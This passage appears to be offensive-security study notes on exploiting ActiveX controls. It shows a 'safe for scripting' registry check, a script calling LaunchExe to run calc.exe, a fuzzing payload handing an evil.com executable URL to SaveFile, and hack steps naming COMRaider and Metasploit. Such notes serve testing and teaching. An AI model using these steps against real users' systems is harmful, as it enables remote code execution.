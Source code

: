 
**Step 2 — Check if it’s Safe for Scripting**

* Registry path:

  ```
  HKEY_CLASSES_ROOT\CLSID\<CLASSID>\Implemented Categories\
  ```
* Look for subkey:

  ```
  7DD95801-9882-11CF-9FA9-00AA006C42C4
  ```

  ✅ If present → control is safe for scripting → **any site can call it**.

---

**Step 3 — Call Dangerous Methods**
If installed, you can trigger it directly from JS:

```html
<script>
  document.oMyObject.LaunchExe('calc.exe');
</script>
```

If no validation is in place, this executes instantly.

---

**Step 4 — Memory Corruption Payload**

* Use long strings, crafted binary data, or fuzzing payloads to crash/own the process:

```javascript
// Possible buffer overflow test
var junk = "A".repeat(5000);
document.oMyObject.SaveFile(junk, "http://evil.com/payload.exe");
```

---

### **4. HACK STEPS (Actionable)**

1. **Identify** ActiveX controls in HTML source.
2. **Extract** classid and check registry if installed.
3. **Confirm** "safe for scripting" status.
4. **Enumerate methods** using COMRaider or manual inspection.
5. **Test dangerous methods** by passing arbitrary inputs (filenames, commands, URLs).
6. **Fuzz** inputs to trigger crashes → possible RCE.

---

### **5. Tools**

* **COMRaider** → Enumerates all methods + does basic fuzzing.
* **OLE/COM Object Viewer** → Inspect and test COM methods manually.
* **Metasploit** → Has specific ActiveX module exploits.

---